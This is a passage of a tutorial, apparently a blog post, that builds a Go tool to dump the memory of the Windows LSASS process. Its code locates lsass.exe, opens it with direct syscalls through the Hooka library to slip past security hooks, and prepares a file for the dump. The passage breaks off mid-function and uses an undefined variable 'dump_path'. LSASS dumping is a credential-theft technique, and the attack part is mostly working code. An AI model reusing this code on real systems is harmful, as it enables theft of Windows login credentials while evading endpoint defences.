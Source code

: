 ```go
    // Check if process name is lsass.exe
    if proc.Exe == "lsass.exe" {
      return proc.ProcessID, nil // Return PID
    }
  }

  return 0, errors.New("lsass.exe process not found!")
}
```

Once we also have that, let's start with the main part... the **LSASS.EXE** process dump

This function will receive the process ID (PID) and a string which is the file where the process dump will be written to

> Golang function
```go
func DumpLsass(pid int, output string) (error) {
  ...
}
```

We use `hooka` to retrieve direct syscalls (see [here](https://github.com/D3Ext/Hooka/tree/main/examples) for references), I only use it with `NtOpenProcess` however I also wanted to use it with `NtCreateFile` but it was really hard so I let you to do that. We will use `CreateFileW` instead

```go
func DumpLsass(pid int, output string) (error) {
  // Get syscall
  NtOpenProcess, err := hooka.GetSysId("NtOpenProcess")
  if err != nil {
    return err
  }

  // Variable to store process pointer
  var procHandle uintptr
  // Open lsass process
  _, err = hooka.Syscall(
    NtOpenProcess, // syscall
    uintptr(unsafe.Pointer(&procHandle)), // process handle
    uintptr(0xFFFF),
    uintptr(unsafe.Pointer(&ObjectAttrs{0, 0, 0, 0, 0, 0})), // attributes
    uintptr(unsafe.Pointer(&ClientID{uintptr(pid), 0})),
    0,
  )

  if err != nil { // Handle error
    return err
  } else if procHandle == 0 {
    return err
  }

  // Create file on path
  os.Create(dump_path)
  // Get API call
  CreateFile := windows.NewLazyDLL("kernel32").NewProc("CreateFileW")
  // Convert string to uintptr
  path, _ := syscall.UTF16PtrFromString(output)

  // Call CreateFileW to write memory bytes
  fHandle, _, _ := CreateFile.Call(
    uintptr(unsafe.Pointer(path)), // file path
    syscall.GENERIC_WRITE, // access
    syscall.FILE_SHARE_READ | syscall.FILE_SHARE_WRITE,
    0,
    syscall.OPEN_EXISTING,
```